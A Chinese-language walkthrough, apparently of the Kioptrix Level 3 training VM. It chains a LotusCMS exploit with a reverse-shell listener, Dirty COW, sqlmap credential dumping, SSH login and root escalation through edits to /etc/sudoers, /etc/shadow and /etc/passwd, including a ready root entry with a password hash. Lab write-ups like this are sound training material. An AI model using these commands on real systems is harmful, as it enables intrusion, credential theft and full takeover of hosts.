







# **level three**  LotusCMS漏洞+脏牛提权 SQL注入+SUID提权

## 扫描ip  

``` bash
netdiscover -i eth0
arp-scan -l
```  

## 扫描端口

```bash
nmap -sC -sV -p- -v -A ip地址
```  

## 域名解析

进入/etc 修改hosts文件  添加
```192.168.205.141 kioptrix3.com```
进行域名解析  
在windows位于C:\Windows\System32\drivers\etc\hosts  

## 使用dirbuster进行枚举解析

  


## 过时的LotusCMS系统

使用[该地址](https://github.com/Hood3dRob1n/LotusCMS-Exploit)下载脚本  
执行`./hello.sh http://kioptrix3.com`同时打开监听端口`nc -lvp 8888`  
  
上传执行LinEnum,获取系统信息  
  
使用`uname -r`查看Linux内核版本得出为`2.6.24-24-server`  
而Linux内核在2.6.22~3.9均受`Dirty Cow`漏洞影响  
使用[
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)
](https://www.exploit-db.com/exploits/40839)相比使用SUID的方法更稳定  
执行`./dirty 123456`完成后  
  
获得了  
>root-user:firefart  
>password:123456  

但出现问题 ***无法切换为该用户***

## 使用sql注入  

根据*dirbuster* 得到路径`http://kioptrix3.com/gallery/version.txt`  
访问得到`Gallarific 2.1 - Free Version released October 10, 2009`  
可知`http://kioptrix3.com/gallery/`是基于Gallarific 2.1搭建  
执行指令  
`sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1 --level 4 --risk 3 -p id --dbs`得到  
  
接着枚举`gallery`数据库  
`sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1 --level 4 --risk 3 -p id -D gallery --tables`  
  
导出gallarific_users  
`sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1 --level 4 --risk 3 -p id -D gallery -T dev_accounts --columns`  
`sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1 --level 4 --risk 3 -p id -D gallery -T dev_accounts -C "username,password" --dump`  
得到账户和密码`ssh -l` 远程连接loneferret账号  
使用`ls -al`查看所有文件  

### 使用vim在`/etc/sudoers`添加代码  

  
然后执行指令

```bash
sudo bash
```

### 修改`/etc/shadow`  

>该文件中保存加密后的账号和密码，只需删除root的密码，就可以无需密码切换到root  

### 修改`/etc/passwd`  

>插入`rootwe:sXuCKi7k3Xh/s:0:0::/root:/bin/bash`  
创建一个用户名为***rootwe***密码为toor的root用户
